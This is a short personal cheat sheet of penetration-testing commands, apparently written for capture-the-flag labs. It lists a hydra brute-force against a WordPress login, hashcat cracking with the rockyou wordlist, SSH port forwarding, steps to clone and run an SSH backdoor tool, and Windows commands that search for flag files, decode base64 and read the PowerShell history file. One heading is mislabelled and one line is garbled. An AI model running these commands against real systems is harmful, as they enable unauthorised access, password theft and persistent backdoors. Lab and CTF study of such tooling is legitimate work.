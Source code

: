 # Manual Attack CheatSheet

## intruder sniper

-later la males

## hydra example

hydra -l Elliot -P wordl.txt 10.10.203.64 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username' -t 30

## spin up rdp

xfreerdp /u:username /v:host


## Reverse SSH Tunnel 

- ss -tulpn
- ssh -L 10000:localhost:10000 <username>@<ip>


## Hashcat
- hashcat -m 1710 "" --force /Users/c3budiman/Hacking/wordlist/rockyou.txt

## SSH backdoor 
- git clone https://github.com/NinjaJc01/ssh-backdoor
- cd ssh-backdoor
- ssh-keygen
- id_rsa
- chmod +x backdoor
- ./backdoor -a hash

## find flag or file in windows 

Get-ChildItem -Path C:\ -Include *interesting-file.txt* -File -Recurse -ErrorAction SilentlyContinue

## Decode base64 in windows

- certutil -decode "C:\Users\Administrator\Desktop\b64.txt" out.txt
- Get-Content out.txt


Get-Content %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

## hashcat
hashcat -m 13100 -a 0 hash.txt /Users/c3budiman/Hacking/wordlist/rockyou.txt.gz --force
